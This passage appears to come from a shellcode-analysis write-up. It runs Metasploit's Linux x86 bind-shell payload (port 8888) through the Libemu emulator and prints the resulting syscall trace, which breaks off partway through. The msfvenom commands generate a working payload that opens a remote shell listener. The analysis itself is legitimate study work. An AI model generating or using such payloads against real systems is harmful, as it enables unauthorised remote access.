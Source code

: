 

## First approach: Libemu

After installing Libemu, we will use the *sctest* binary. We can get the result using the binary directly or the *libemu.sh* script (in **scripts/** folder):

```bash
msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888 | ./sctest -vvv -Ss 10000 -G bindshell.dot
```

Or we can use the libemu.sh script (in scripts/ folder):

```bash
sh libemu.sh "msfvenom -p linux/x86/shell_bind_tcp --platform=Linux -a x86 -f raw LPORT=8888" bindshell | tee libemu_res/libemu_res.txt
```


The result:

```cpp
int socket (
     int domain = 2;
     int type = 1;
     int protocol = 0;
) =  14;
int bind (
     int sockfd = 14;
     struct sockaddr_in * my_addr = 0x00416fc2 => 
         struct   = {
             short sin_family = 2;
             unsigned short sin_port = 47138 (port=8888);
             struct in_addr sin_addr = {
                 unsigned long s_addr = 0 (host=0.0.0.0);
             };
             char sin_zero = "       ";
         };
     int addrlen = 16;
) =  0;
int listen (
     int s = 14;
     int backlog = 0;
) =  0;
int accept (
     int sockfd = 14;
     sockaddr_in * addr = 0x00000000 => 
         none;
     int addrlen = 0x00000010 => 
         none;
) =  19;
int dup2 (
     int oldfd = 19;
     int newfd = 14;
) =  14;
int dup2 (
     int oldfd = 19;
     int newfd = 13;
) =  13;
int dup2 (
     int oldfd = 19;
     int newfd = 12;
) =  12;
int dup2 (
     int oldfd = 19;
     int newfd = 11;
```